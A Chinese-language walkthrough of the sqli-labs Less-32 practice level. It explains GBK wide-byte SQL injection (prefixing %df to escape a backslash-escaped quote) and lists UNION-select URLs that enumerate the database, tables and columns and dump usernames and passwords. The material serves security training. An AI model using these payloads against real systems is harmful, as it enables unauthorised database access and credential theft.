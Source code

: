 ```yaml
---
title: Less - 32
date: 2023-03-17T12:09:20Z
lastmod: 2023-03-17T12:37:00Z
---
```


# Less - 32

---

# 通关教程

---

## 一、判断闭合

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=1'
```

​![image](assets/image-20230317121850-pu7l6j8.png)​

这里我们发现我们输入的’直接被转义成\了，在一般情况下，此处是不存在SQL注入漏洞的，不过有一个特例，就是当数据库的编码为GBK时，可以使用宽字节注入，宽字节的格式是在地址后先加一个%df，再加单引号，因为反斜杠的编码为%5c，而在GBK编码中，%df%5c是繁体字“連”，所以这时，单引号成功逃逸，报出MySQL数据库的错误。

​![image](assets/image-20230317122034-qy7r72n.png)​

发现确实使用了GBK编码，所以这里我们可以在单引号前面输入%df让单引号成功逃逸

​![image](assets/image-20230317122125-j0lyyx0.png)​

---

## 2、查看当前数据库

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,database()--+
```

​![image](assets/image-20230317122853-bg715ng.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

​![image](assets/image-20230317123437-zd5fztc.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)--+
```

​![image](assets/image-20230317123525-bcbhf4g.png)​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,(select group_concat(username,password) from security.users)--+
```

​![image](assets/image-20230317123651-vmzsd1u.png)​
